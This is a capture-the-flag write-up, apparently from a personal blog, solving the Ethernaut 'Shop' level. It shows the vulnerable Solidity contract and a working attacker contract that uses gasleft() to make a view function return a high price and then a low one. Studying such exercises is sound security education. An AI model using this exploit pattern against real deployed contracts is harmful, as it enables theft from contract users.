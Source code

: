 ```yaml
---
title: Ethernaut - Shop - Solution
date: '2024-05-14'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the Ethernaut - Shop CTF
---
```


# Ethernaut - Shop - Solution

## Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
    function price() external view returns (uint256);
}

contract Shop {
    uint256 public price = 100;
    bool public isSold;

    function buy() public {
        Buyer _buyer = Buyer(msg.sender);

        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}
```

## Exploit

The goal is to get the `buy()` function to set the `price` to a value smaller than 100.

Note that this level is very similar to [Elevator](https://www.marcobesier.xyz/blog/ethernaut-solutions/elevator).

Here, however, we have the additional complication that our `price()` function must be a `view` function.
In other words, we are not allowed to implement any state-changing logic inside `price()` as we did in the Elevator solution.

Nonetheless, we can still craft a `price()` function that returns different values each time it is called by using `gasleft()`!

In a first attempt, we might try to have `price()` simply returning `gasleft()`, hoping that `gasleft()`'s value will be >= 100 when called the first time and < 100 when called the second time.
Going with this approach, we will observe that the attack will fail since the value of `gasleft()` after the second call to `price()` is still quite a bit higher than 100.
After some more experimentation, however, it's easy to subtract a suitable value from `gasleft()` such that `price()` has the desired behaviour.

For example, the following implementation will return a price > 100 when called the first time and a price of 42 when called the second time.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IShop {
    function buy() external;
}

contract ShopAttacker {
    IShop public immutable VICTIM;

    constructor(address victim) {
        VICTIM = IShop(victim);
    }

    function attack() external {
        VICTIM.buy();
    }

    function price() external view returns (uint256) {
        return gasleft() - 3714;
    }
}
```
